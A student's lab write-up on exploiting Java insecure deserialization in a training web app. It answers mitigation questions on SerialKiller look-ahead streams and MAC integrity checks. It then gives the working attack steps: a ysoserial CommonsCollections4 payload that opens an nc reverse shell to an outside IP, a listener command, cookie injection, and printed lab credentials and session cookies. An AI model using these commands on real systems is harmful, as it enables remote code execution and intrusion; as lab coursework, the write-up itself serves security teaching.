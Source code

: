 # Insecure Serialization

## Answers

Content of /app/secret.txt: `rO0ABrevers`  (also see steps and screenshot below)

1. How could you modify this code snippet using look-ahead object input streams (LAOIS) to fix the vulnerability.

Using SerialKiller library, the validity of the byte code can be checked to a certain degree. (probably not 100% safe.)
```
byte[] d = Base64.getDecoder().decode(b64User);
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(d));
ObjectInputStream saferOis = new SerialKiller(ois, "etc/serialkiller.conf");  // would throw InvalidClassException 
 User user = (User) saferOis.readObject();
```

2. The serialized data contains an object of type User. Does your fix above prevent that someone tampers this object and replaces the value of the attribute username in this object. If yes why? If no, how could you prevent that.
    - It does not prevent changing the actual data. Tampering could be prevented by hashing the serialized class and then encrypt it. The encrypted key would have to added to the serialization string. (or even better a MAC 'message authentication code') Before deserialization, the code would have to check integrity and only when ok continue with the deserialization. . 
3. The application returns an exception when you execute your exploit. Why is the exploit executed anyway?
    - exception occurs after the passed command - the malicious code - is executed. 


**Optional Step 4.4.**

![Modify content](4ModifyContent.png)

Should be relativly easy to modify the payload. Just decode base64, change the data and base64 encode it again and use the same mechanism to inject the payload as described below. 



## Steps

**1 Analyze insecure/serialization website**

Login to website https://101918be-713f-42fd-8257-e6bb79a40f0d.idocker.vuln.land/logout
with the following credentials: thomas, mypass22


Cookie values: 
- JSESSIONID:"80D9B52D7F671CC3B97B43C985F9A8CC"
- user:"rO0ABXNyAB9uZXQuaXNjaGkuaGwuc2VyaWFsaXphdGlvbi5Vc2VyAAAAAAAAAAECAAJMAAhwYXNzd29yZHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACHVzZXJuYW1lcQB+AAF4cHB0AAZ0aG9tYXM="
    - seems to be java serialization code (starting with "rO0")


**2 generate  exploit**

Running ysoserial reverse shell
1. get ysoserial from github
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
```
2. fix dockerfile according to: https://github.com/frohoff/ysoserial/pull/193
3. run docker and generate paylod into a file dansPayload (did it as root probably not necessary)
```
docker build -t ysoserial .
docker run ysoserial --help
docker run ysoserial CommonsCollections4 'hello'
docker run ysoserial CommonsCollections4 'nc 10.103.0.17 1337 -e /bin/sh' | base64 -w 0 > danPayload
```

Last statement writes the attack payload into a file danPayload. 
Good to know: 
- `base64 -w 0` -> "-w 0" removes automatic line breaks 



**3  exploit**

1. Start nc server 
    - Go to https://946a4eed-e576-478a-a7f2-c1945f5cf49b.idocker.vuln.land/ and log in ("hacker", "9EoH05dJ2Mgq")
    - start nc server: `nc -l -p 1337`  (command executed from /bin folder, probably works from anywhere)
        - server now listens on port 1337 for incomming connections
2. In new browser tab, pass exploit in browser (tried with FF)
    - go to https://946a4eed-e576-478a-a7f2-c1945f5cf49b.idocker.vuln.land/ and log in (cookies are set)
    - in developer tools change cookie with 'user' to value in payload (attention withouth '%')
        - error message appears (which is to be expected) -> see screenshot
3. Reverse shell works: from the nc server started in step 1, I can no control the webserver so the exploit was succesful (despite error message in step 2)
    - Found flag in app/secret.txt:  **rO0ABrevers**  (also see screenshot) 


![Browser error msg](InsecureSerialization.png)

![Reverse shell](ReverseShellWithSecret.png)



